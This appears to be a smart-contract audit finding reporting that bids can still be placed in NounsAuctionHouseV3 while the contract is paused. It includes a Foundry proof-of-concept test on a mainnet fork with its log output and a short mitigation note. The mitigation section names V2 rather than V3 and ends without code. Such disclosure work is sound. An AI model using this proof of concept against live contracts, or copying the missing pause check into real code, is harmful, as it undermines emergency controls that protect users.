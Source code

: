 Vast Infrared Pelican

Medium

# Bids can be made by calling NounsAuctionHouseV3::createBid even when protocol is paused

### Summary

Contract is pausable, however even when pause state is enabled, user can still bid in current auction, leading to pause mode ineffective and made be able to modify states changes

### Root Cause

The described issue occurs because NounsAuctionHouseV3::createBid can be called even when contract is in pause mode, allowing users to bid even in paused state.  
If the contract enters in pause state due to emergency situations, changes to contract state can be made as the following PoC shows.
https://github.com/sherlock-audit/2024-11-nounsdao/blob/8b6fb94f103134e751cf016e5c3f4185be89bb49/nouns-monorepo/packages/nouns-contracts/contracts/NounsAuctionHouseV3.sol#L145


### Internal pre-conditions

1. Admin pauses contract NounsAuctionHouseV3 due to emergency mode  


### External pre-conditions

1. Users call bid while contract NounsAuctionHouseV3 is in pause making it able to modify contract state  
 

### Attack Path

1. Admin sets contract to pause mode  
2. External user is able to perform bids on contract NounsAuctionHouseV3 even while in pause mode 

### Impact

Contract storage / logic can be modified by any user even when contract enter in paused state  
Likehood: High  
Impact: Low  
Severity: Medium  

### PoC

Add this code to test/foundry/Upgrade/UpgradeMainnetFork.t.sol under contract AuctionHouseUpgradeMainnetForkTest:  
```solidity
    function test_auctionHouseV3_bidWhenPaused() public {
        console.log("[i] Addresses");
        console.log("\tUser1 address => ",address(user1));
        console.log("\tUser2 address => ",address(user2));

        INounsAuctionHouseV3 auction = INounsAuctionHouseV3(AUCTION_HOUSE_PROXY_MAINNET);
        IStreamEscrow streamEscrow = auction.streamEscrow();
        auction.settleCurrentAndCreateNewAuction();

        address owner = IOwner(address(auction)).owner();
        uint96 nounId1 = auction.auction().nounId;

        //User1 bids
        console.log("\n");
        console.log("[i] User1 bids to auction");
        vm.prank(user1);
        auction.createBid{ value: 1 ether }(nounId1);

        console.log(
            "After bid current highest bidder ",
            auction.auction().bidder
        );

        //Owner pauses contract 
        console.log("\n");
        console.log("[i] Owner pauses contract");
        vm.prank(owner);
        auction.pause();

        //User2 bids
        console.log("\n");
        console.log("[i] User2 bids to auction ");
        vm.prank(user2);
        auction.createBid{ value: 2 ether }(nounId1);

        console.log(
            "After bid current highest bidder ",
            auction.auction().bidder
        );

        vm.warp(block.timestamp + auction.auction().endTime);
    }
```
Exec test with:  
```bash
forge test --mt test_auctionHouseV3_bidWhenPaused -vv
```
Observe in the logs that users can still bid in auction even after contract enter pause state:  
```bash
Logs:
  foundry profile:  default
  [i] Addresses
  	User1 address =>  0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF
  	User2 address =>  0x537C8f3d3E18dF5517a58B3fB9D9143697996802
  

  [i] User1 bids to auction
  After bid current highest bidder  0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF
  

  [i] Owner pauses contract
  

  [i] User2 bids to auction 
  After bid current highest bidder  0x537C8f3d3E18dF5517a58B3fB9D9143697996802
```

### Mitigation

Implement whenNotPaused modifier in NounsAuctionHouseV2::createBid function:  
